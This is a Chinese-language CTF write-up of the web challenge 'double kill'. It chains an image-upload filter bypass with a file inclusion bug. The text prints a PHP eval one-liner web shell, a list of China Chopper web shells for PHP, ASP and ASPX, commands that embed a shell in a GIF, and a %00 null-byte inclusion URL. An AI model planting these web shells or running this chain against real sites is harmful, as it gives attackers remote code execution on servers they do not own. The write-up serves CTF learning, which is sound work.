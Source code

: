 
### double kill
题目描述：

```
double kill
350

"没有什么防护是一个漏洞解决不了的，如果有，那
就.....
"
```

根据题目提示的意思应该是要有两个漏洞，看站点提供了上传通道那就应该有，再看网站链接长成这样 `http://101.200.145.44/web5/index.php?page=submit`，估计就是文件包含漏洞了。

![iscc_web5](../../images/iscc_web5.png)

文件上传过滤的挺死的，后台验证，只允许是 jpg 或者 png 格式的图片，那就将 一句话木马写入到图片中再上传上去好了。

一句话木马中不能含有 php 标签，只能使用这句。

```
<script language="php">@eval($_POST['pass']);</script>
```

附带中国菜刀一句话连接木马大全

```
PHP : <?php @eval($_POST['pass']);?>
ASP : <%eval request("pass")%>
ASPX:<%@ Page Language="Jscript" %><%eval(Request.Item["pass"],"unsafe");%>
```

在 linux 下可以使用 `echo -n "<script language='php'>@eval($_POST['pass']);</script>">>1.gif` 来把一句话木马加入到图片的后面，在 windows 下可以用 ` copy 1.gif /b + 1.php /a 2.gif ` 来将 gif 文件与 php 文件合并。

然后就可以将文件木马上传上去，查看图片，记下文件位置，即可 url 中使用文件包含漏洞来查看上传的木马图片，在木马图片 url 的最后需要使用 `%00` 截断符截断，访问 `http://101.200.145.44/web5/index.php?page=uploads/1464138923.gif%00` 。
